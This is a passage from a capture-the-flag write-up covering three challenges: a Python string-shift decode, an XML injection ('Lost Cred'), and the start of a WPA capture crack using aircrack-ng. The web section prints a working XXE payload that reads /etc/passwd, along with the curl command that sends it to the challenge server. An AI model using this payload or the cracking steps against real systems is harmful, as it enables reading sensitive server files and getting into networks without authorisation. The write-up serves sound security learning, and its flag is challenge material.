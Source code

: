 Implementing it in the python3 and Testing it.
```bash
$ python3
>>> enc = "rf.bo'b/$ke"
>>> flag = ""
>>> for i in range(len(enc)):
...     flag += chr(ord(enc[i]) + i+1)
... 
>>> print(flag)
sh1ft-i7-up
```

Hence, flag was `HE{sh1ft-i7-up}`.

## Lost Cred (Web Application)

A link to the web page was given which says give me username and password. Webpage is currently down and so I am not sure about its exact contain. There was a hint in the source code of webpage which says *i loveeeee xml*. It was hint for xml injection.

Here is the payload.
```xml
<?xml version="1.0"?>
<!DOCTYPE creds [ 
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

<creds>
	<user>&xxe;</user>
	<pass>guest</pass>
</creds>
```

After sending it to the webpage, it responds with contents of the passwd file which contains the flag.
```bash
$ curl -i -X POST http://13.232.31.210:8001/index.php --data-binary "@payload.xml" -H "Content-Type: text/xml"
```

## Crack-Network (Network Security)

A packet capture file is given. Opening it in wireshark shows that it contains packets of protocol 802.11 which is used for wireless communication.

On running aircrack-ng, it finds a WPA handshake.
```bash
$ aircrack-ng crack-the-network.cap
Opening crack-the-network.cap
Read 49365 packets.

   #  BSSID              ESSID                     Encryption
   1  D0:D7:83:CC:B8:F3  Honor 8X                  WPA (1 handshake)

Choosing first network as target.

Opening crack-the-network.cap
Please specify a dictionary (option -w).

Quitting aircrack-ng...
```
